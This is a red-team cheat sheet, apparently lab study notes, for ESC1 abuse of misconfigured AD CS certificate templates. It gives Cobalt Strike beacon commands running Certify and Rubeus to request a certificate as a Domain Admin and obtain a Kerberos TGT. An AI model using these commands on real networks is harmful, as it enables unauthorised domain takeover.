 #------------------------------------------------------------------------------------
# ESC1 ( ENROLLEE_SUPPLIES_SUBJECT ) - Misconfigured Certificate Templates

# 1. Find the misconfigured certificate,
# Look for Enrollment Rights,
# check if *ENROLLEE_SUPPLIES_SUBJECT* is enabled in property (msPKI-Certificate-Name-Flag)
# certificate usage (pkiextendedkeyusage) has *Client Authentication* set.
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
beacon> getuid
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /enrolleeSuppliesSubject

# 2. Request a Certificate for other domain user (Domain Admin)
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb /domain:dev.cyberbotic.io
# For OutBound Forests the Certify fails , So either use Certreq or modify the Certify Source code.
- Check this for help : [https://github.com/GhostPack/Certify/issues/13#issuecomment-1716046133](https://github.com/GhostPack/Certify/issues/13#issuecomment-1716046133)

# 3. Copy the whole certificate (both the private key and certificate) and save it to .pem file. Then use openssl command to convert it to pfx format.
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
# Convert .pfx into a base64 encoded string so it can be used with Rubeus
ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0

# 4. use asktgt to request a TGT for the user using the certificate
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /password:pass123 /nowrap /certificate:MIIM7w[...]ECAggA
